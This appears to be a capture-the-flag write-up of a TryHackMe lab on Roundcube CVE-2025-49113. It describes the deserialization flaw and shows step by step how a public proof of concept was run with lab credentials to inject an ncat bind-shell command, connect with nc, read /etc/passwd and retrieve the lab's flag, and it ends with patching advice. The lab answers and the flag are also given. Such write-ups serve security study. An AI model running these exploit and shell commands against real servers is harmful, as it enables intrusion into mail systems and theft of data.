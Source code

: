 ![Banner](https://github.com/user-attachments/assets/8296479c-e8e6-439a-b941-8780de7193be)


# Roundcube: CVE-2025-49113

## Task1 : Introduction

> **Roundcube Webmail Overview**
1. Free & open-source webmail project.
2. Supports 80+ languages & third-party plugins.
3. Runs on:
    - Web servers: Apache, Nginx, Lighttpd (PHP required).
    - Databases: MySQL, MariaDB, PostgreSQL, SQLite, etc.
      
4. Popular among hosting providers.

> **Vulnerability Details**
1. **Affected versions:** 1.5.x (`<1.5.10`) & 1.6.x (`<1.6.11`).
2. **Type:** Remote Code Execution (RCE) via insecure deserialization.
3. **CVSS 3.x Score:** `9.9` (`Critical`).
4. Exploitation Requirement: Valid webmail credentials.
5. Fix: Patched in versions `1.5.10` & `1.6.11`.



<br>


## Task 2 : Technical Background

> **Serialization:**
- Converts objects into storable/transmittable formats.

> **Deserialization Vulnerability:**
- Occurs when untrusted data is deserialized.
- Allows arbitrary code execution or privilege escalation.

> **Root Cause:**
- `_from` property in `upload.php` lacked proper validation.
- Fixed by adding input sanitization checks (e.g., `rcube_utils::is_simple_string()`).
![image](https://github.com/user-attachments/assets/6a96c989-1c04-46de-ae2b-ca7b70e99c83)


<br>


## Task 3 : Exploitation

At first  I used Ellie’s credentials to access the webmail at 	`http://MACHINE_IP/roundcube`
  
  Username: 	`ellieptic	`
  
  Password: 	`ChangeMe123`
  
        
![image](https://github.com/user-attachments/assets/3fa2c99d-4c05-482c-8350-b542570caebc)

<br>

> **Exploit Code**

  A proof of concept (`PoC`) exploit code is published by `FearsOff` on their GitHub repository. The easiest way to follow along would be to download the exploit code using 
  
    git clone https://github.com/fearsoff-org/CVE-2025-49113
    
![image](https://github.com/user-attachments/assets/06017190-ba58-42aa-891c-126a75dc6cf2)
  
  The `CVE-2025-49113.php` executes the necessary steps to get the payload of your choice executed on the target server. After retrieving a `CSRF token` and a `session cookie`, this PoC PHP script logs in using the provided `username` and `password`. The core steps of this script lie in the following:


-  Craft a malicious serialised PHP object
-  Embed the crafted object in the _from parameter
-  Send a POST request to the upload.php endpoint using the malicious _from parameter


The command look like this.. where we will specify the `url`, `username`, `password` and `command`. 

       php CVE-2025-49113.php target_url username password command.
  
  The received malicious parameter will be deserialised and executed on the server side.


<br>

  So, I setup the payload accordingly and the command we will be using, is for creating a `bind shell`. For which we will open a conncetion at server side by running the `netcat` listner at port `4444`.

    php CVE-2025-49113.php http://MACHINE_IP/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"

  
![image](https://github.com/user-attachments/assets/c2f25027-a905-4323-9748-4f082f526d81)

  
<br>

  After succefull payload injection we will attempt to connect to the bind shell using the `netcat` by specifying the `port` and `IP`.
    
      nc MACHINE_IP 4444


![image](https://github.com/user-attachments/assets/d0f3297f-ccac-46a1-9789-9d99fa574f3c)

  As we got the sehll, our first question was to find the last name of the user `maggie` , So, for this I simply look into the `/etc/passwd` file where username along with the  password hashes are stored. 

![image](https://github.com/user-attachments/assets/d4243204-b104-4aa5-b5ed-02faa5b74cc7)
   
   So, we can see the last name of the `maggie ` is 

         Byte


<br>

  
And for the flag, I simply change the directory to `/etc/` , and I listed all the files to look for the `flag` file in them..

![image](https://github.com/user-attachments/assets/b07b9614-86f1-419a-b6e6-4f404cef5641)

After few scrolls, I found the `flag.txt`

![image](https://github.com/user-attachments/assets/02012c4e-2908-463e-8f34-4eeb62c191a0)


And I simply retireved the flag from the `flag.txt`

![image](https://github.com/user-attachments/assets/9f84610b-cc19-493b-8124-078cb87d14de)

      THM{ICE_CUBE_DESERIALISATION}


## Conclusion and Mitigation

- **Exploit Requirements:**
  1. Valid webmail credentials.
  2.  Works on default installations.
    
- **Detection Difficulty:** Blends in with normal traffic.
- **Severity:** Critical (CVSS `9.9`).

> **Mitigation Steps**

- **Update Immediately:** Upgrade to `1.5.10` (for 1.5.x) or `1.6.11` (for 1.6.x).
- **Temporary Workaround** (if update not possible): Block access to `upload.php`.

> Final Recommendation
- `Patching` is the best defense—apply updates ASAP.
- If patching is delayed, use firewall/access controls to restrict `upload.php`.




